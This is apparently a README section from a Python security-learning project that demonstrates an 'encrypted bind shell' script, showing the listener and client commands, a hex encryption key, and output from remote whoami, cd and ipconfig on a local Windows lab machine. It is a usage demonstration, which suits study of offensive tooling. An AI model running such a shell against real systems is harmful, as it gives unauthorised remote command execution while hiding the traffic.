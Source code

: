 ### Encrypted Bind Shell:

**Client Connection**

```bash
python encrypted_bind_shell.py -c 127.0.0.1 -k 8419e6355eec7ee967e27a4b9850855a6f93ba150dc8420bd0290af46bea110d
Successfully connected to the remote bind shell. Type your commands below:
Connection established successfully
Please enter a command (type 'exit' to disconnect): whoami
luna\gerry merino
Please enter a command (type 'exit' to disconnect): cd
C:\Users\Gerry Merino\Documents\python201
Please enter a command (type 'exit' to disconnect): ipconfig

Windows IP Configuration

Unknown adapter OpenVPN Wintun:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::7a71:c5a3:d0fb:45f3%8
   IPv4 Address. . . . . . . . . . . : 172.16.250.128
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.250.2

Unknown adapter OpenVPN TAP-Windows6:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Unknown adapter OpenVPN Data Channel Offload:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
Please enter a command (type 'exit' to disconnect):
```

**Server Connection**

```bash
python encrypted_bind_shell.py -l
Encryption Key: 8419e6355eec7ee967e27a4b9850855a6f93ba150dc8420bd0290af46bea110d
Initializing bind shell. Listening for incoming connections...
New connection established from: ('127.0.0.1', 50699)
Received command from client: whoami
Received command from client: cd
Received command from client: ipconfig
```
